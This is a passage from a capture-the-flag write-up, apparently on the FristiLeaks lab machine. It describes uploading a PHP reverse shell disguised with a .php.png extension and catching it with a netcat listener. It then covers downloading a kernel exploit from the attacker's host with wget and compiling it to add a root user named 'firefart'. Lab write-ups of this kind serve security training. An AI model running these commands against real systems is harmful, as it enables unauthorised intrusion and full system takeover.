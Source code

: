 ![](https://cdn.ziomsec.com/fristileaks/15.webp)

Upon visiting the *Uploads/* directory, I received a text response.

![](https://cdn.ziomsec.com/fristileaks/16.webp)

Since, I had the ability to upload any files, I uploaded a **php reverse shell** and triggered it to get a reverse shell.

> **[revshells](https://www.revshells.com/)** can be used to configure the payload.

```shell
rlwrap nc -lnvp 8000
```

![](https://cdn.ziomsec.com/fristileaks/17.webp)

![](https://cdn.ziomsec.com/fristileaks/18.webp)

```shell
curl http://TARGET/fristi/uploads/exploit.php.png
```

![](https://cdn.ziomsec.com/fristileaks/19.webp)

## Privilege Escalation
### Kernel Exploitation

I viewed my kernel information and searched for exploits related to it on **Exploit-DB**.

```shell
uname -a
```

![](https://cdn.ziomsec.com/fristileaks/20.webp)

![](https://cdn.ziomsec.com/fristileaks/21.webp)

I downloaded the available exploit on the target system.

```shell
wget http://KALI:PORT/exploit.c
```

![](https://cdn.ziomsec.com/fristileaks/22.webp)

I then compiled it according to the instructions given in the payload script.

```shell
gcc -pthread exploit.c -o dirty -lcrypt
```

![](https://cdn.ziomsec.com/fristileaks/23.webp)

By executing the payload, a new user called *firefart* was added with a **uid** of 0.
